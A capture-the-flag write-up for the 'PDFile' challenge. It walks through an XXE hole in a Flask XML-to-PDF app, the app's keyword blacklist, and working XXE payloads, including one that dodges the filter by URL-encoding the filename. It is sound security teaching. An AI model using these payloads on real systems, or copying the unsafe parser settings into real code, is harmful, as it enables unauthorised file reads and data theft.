

## PDFile  



This challenge involves an app that converts XML to PDF files.  

The `/upload` endpoint calls `parse_pasx()` to parse the XML file, and we can immediately notice an XXE vuln in the function, as `lxml` is being run with `resolve_entities` enabled.  

```python
def parse_pasx(xml_content):
    """Parse .pasx XML content and extract book data."""
    
    if not sanitize(xml_content):
        raise ValueError("XML content contains disallowed keywords.")
    
    try:
        parser = etree.XMLParser(encoding='utf-8', no_network=False, resolve_entities=True, recover=True)
        root = etree.fromstring(xml_content, parser=parser)
        
        book_data = {
            'title': root.findtext('title', default='Untitled'),
            'author': root.findtext('author', default='Unknown Author'),
            'year': root.findtext('year', default=''),
            'isbn': root.findtext('isbn', default=''),
            'chapters': []
        }
        
        chapters = root.find('chapters')
        if chapters is not None:
            for chapter in chapters.findall('chapter'):
                chapter_data = {
                    'number': chapter.get('number', ''),
                    'title': chapter.findtext('title', default=''),
                    'content': chapter.findtext('content', default='')
                }
                book_data['chapters'].append(chapter_data)
        
        return book_data
    except etree.XMLSyntaxError as e:
        raise ValueError(f"Invalid XML: {str(e)}")

...

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file provided'}), 400
    
    file = request.files['file']
    
    if file.filename == '':
        return jsonify({'error': 'No file selected'}), 400
    
    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file type. Only .pasx files are allowed'}), 400
    
    try:
        xml_content = file.read()
        book_data = parse_pasx(xml_content)
        
        pdf_filename = f"{uuid.uuid4().hex}.pdf"
        pdf_path = os.path.join(app.config['UPLOAD_FOLDER'], pdf_filename)
        
        generate_pdf(book_data, pdf_path)
        
        return jsonify({
            'success': True,
            'pdf_url': url_for('get_pdf', filename=pdf_filename),
            'book_title': book_data['title'],
            'book_author': book_data['author']
        })
    
    except ValueError as e:
        return jsonify({'error': str(e)}), 400
    except Exception as e:
        return jsonify({'error': f'Error processing file: {str(e)}'}), 500
```

In the Dockerfile, we can see that the flag file is in `/app`, so we are meant to use XXE to get arbitrary file read.  

```dockerfile
FROM python:3.13

ARG FLAG

WORKDIR /app

COPY requirements.txt .
RUN apt-get update && apt-get install -y libxml2-dev libxslt-dev gcc zlib1g-dev
RUN pip install --no-cache-dir --no-binary lxml -r requirements.txt

COPY . .
RUN echo "$FLAG" > /app/flag.txt
RUN chmod 400 /app/flag.txt
```

We can craft a basic XXE payload that will read the flag file from `/app`.  

```xml
<!DOCTYPE book [
  <!ENTITY leak SYSTEM "file:///app/flag.txt">
]>
<book>
  <title>&leak;</title>
</book>
```

However, the backend enforces a filter on our payload, which blacklists `file` and `flag`.  

```python
def sanitize(xml_content):
    try:
        content_str = xml_content.decode('utf-8')
    except UnicodeDecodeError:
        return False
    
    if "&#" in content_str:
        return False
    
    blacklist = [
        "flag", "etc", "sh", "bash", 
        "proc", "pascal", "tmp", "env", 
        "bash", "exec", "file", "pascalctf is not fun", # good old censorship
    ]
    if any(a in content_str.lower() for a in blacklist):
        return False
    return True
```

To bypass the filter, we can URL encode the filename, and we can also omit the `file:///` protocol since `lxml` allows absolute file paths.  

```xml
<!DOCTYPE book [
  <!ENTITY leak SYSTEM "///app/%66lag.txt">
]>
<book>
  <title>&leak;</title>
</book>
```

Submitting our payload file on the webpage will then reveal the flag.  


Flag: `pascalCTF{xml_t0_pdf_1s_th3_n3xt_b1g_th1ng}1`